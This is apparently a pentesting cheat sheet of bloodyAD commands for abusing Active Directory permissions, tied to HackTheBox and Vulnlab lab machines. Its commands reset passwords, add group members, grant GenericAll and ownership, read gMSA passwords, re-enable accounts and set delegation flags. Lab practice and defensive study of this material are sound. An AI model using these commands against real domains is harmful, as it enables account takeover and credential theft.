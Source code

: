 ### Retrieve User Information
```bash
bloodyAD --host $dc -d $domain -u $username -p $password get object $target_username
```
### Add User To Group
```bash
bloodyAD --host $dc -d $domain -u $username -p $password add groupMember $group_name $member_to_add
```
### Change Password
```bash
bloodyAD --host $dc -d $domain -u $username -p $password set password $target_username $new_password
```
### Give User GenericAll Rights
```bash
bloodyAD --host $dc -d $domain -u $username -p $password add genericAll $DN $target_username
```
### WriteOwner
```bash
bloodyAD --host $dc -d $domain -u $username -p $password set owner $target_group $target_username
```
### ReadGMSAPassword
```bash
bloodyAD --host $dc -d $domain -u $username -p $password get object $target_username --attr msDS-ManagedPassword
```
### Enable a Disabled Account
```bash
bloodyAD --host $dc -d $domain -u $username -p $password remove uac $target_username -f ACCOUNTDISABLE
```
### Add The TRUSTED_TO_AUTH_FOR_DELEGATION Flag
```bash
bloodyAD --host $dc -d $domain -u $username -p $password add uac $target_username -f TRUSTED_TO_AUTH_FOR_DELEGATION
```
### Notes
To use Kerberos, obtain a TGT and then pass `-k` instead of providing a username and password
### Resources
- Redelegate (Vulnlab)
- Vintage (HackTheBox)
- Infiltrator (HackTheBox)
- Rebound (HackTheBox)
- Absolute (HackTheBox)
- Certified (HackTheBox)
